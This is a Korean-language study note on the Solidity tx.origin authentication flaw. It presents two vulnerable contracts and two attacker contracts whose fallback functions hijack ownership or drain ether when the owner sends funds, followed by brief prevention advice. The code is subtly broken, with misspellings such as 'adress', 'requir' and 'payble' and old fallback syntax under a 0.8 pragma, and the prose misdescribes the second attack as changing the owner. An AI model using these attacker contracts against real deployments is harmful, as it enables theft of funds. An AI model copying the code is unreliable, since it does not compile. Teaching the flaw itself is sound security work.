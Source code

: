 # Tx.origin Authentication (소유자 인증)

## **tx.origin과 msg.sender**

- tx.origin : 트랜잭션을 처음 시작한 계정(항상 EOA)
- msg.sender : 트랜잭션을 처음 시작한 계정 or 중간에 컨트랙트를 경유할 경우 컨트랙트 계정으로 바뀔 수 있음

## **tx.origin == msg.sender (x)**

tx.origin과 msg.sender가 동일하다고 생각하고 tx.origin을 권한 검사에 사용하는것은 위험합니다.

**보안 취약 컨트랙트 1**

```solidity
//SPDX-License-Identifier:MIT
pragma solidity ^0.8.0;

contract MyContract {
    
    address owner;

    constructor() {
        owner = msg.sender;
    }

    modifier onlyOwner {
        require(owner == tx.origin, "Caller is not the onwner");
        _;
    }

    function transfer(adress _addr) {
        _addr.tansfer(this.balance);
    }

    function transferOwnership(address newOwner) public onlyOwner {
        owner = newOwner;
    }
}
```

- transferOwnership() 함수를 실핼할 수 있는 것은 onlyOwner를 통과한 계정으로 제한됩니다.
- 그런데 require문에서는 owner를 tx.origin과 비교하고 있습니다.
- 공격자는 다음과 같은 컨트랙트를 작성할 수 있습니다.

**공격자 컨트랙트 1**

```solidity
//SPDX-License-Identifier:MIT
pragma solidity ^0.8.0;

contract Attacker {
    address badUser;
    MyContract target;

    constructor(address _addr) {
        badUser = msg.sender;
        target = MyContract(_addr);
    }

    receive() external payable {
        target.transferOwnership(badUser);
    }
}
```

- 공격자가 MyContract의 배포 계정이 Attacker 컨트랙트에게 이더를 전송하도록 유도하여 성공한다면 receice() 함수가 받으면서 transferOwnership()이 실행될 것이고, tx.origin은 배포 계정이 됩니다.
- 따라서 modifier onluOwner를 무사히 통과하여 파라미터로 전달된 badUser계정이 owner가 됩니다.

![https://github.com/lhn1455/TIL/raw/main/Solidity/Solidity-Docs/img/txorigin.png](https://github.com/lhn1455/TIL/raw/main/Solidity/Solidity-Docs/img/txorigin.png)

**보안 취약 컨트랙트 2**

```solidity
contract Phishable {
    address owner;

    constructor (address _owner) {
        owner = _owner;
    }

    function () public payable {} // collect ether

    function withdrawAll(address _recipient) public {
        requir(tx.origin == owner); // 소유자 인증 후 수금자에게 모든 ether를 전송
        _recipient.transfer(this.balance);
    }
}
```

- require문 코드로 소유자를 인증 후 수금자에게 모든 이더를 송금하는 컨트랙트 입니다.

**공격자 컨트랙트 2**

```solidity
import "Phishable.sol"

contract AttackContract {
    Phishable phisableContract;
    address attacker; //송금 받을 공격자 계정

    constructor (Phishable _phishableContract, address _attackerAddress) {
        phisableContract = _phishableContract;
        attacker = _attackerAddress;
    }

    function () payble {
        phisableContract.withdrawAll(attacker);
    }
}
```

- 공격자는 Phishable 컨트랙트를 자신의 주소로 위장하여 owner를 변경하고 ether를 탈취할 수 있습니다.

**예방 기법**

- tx.origin으로 계약을 승인하면 안됩니다.
- tx.origin을 이용할 경우 `require(tx.origin == msg.sender);` 이렇게 구현해야 합니다.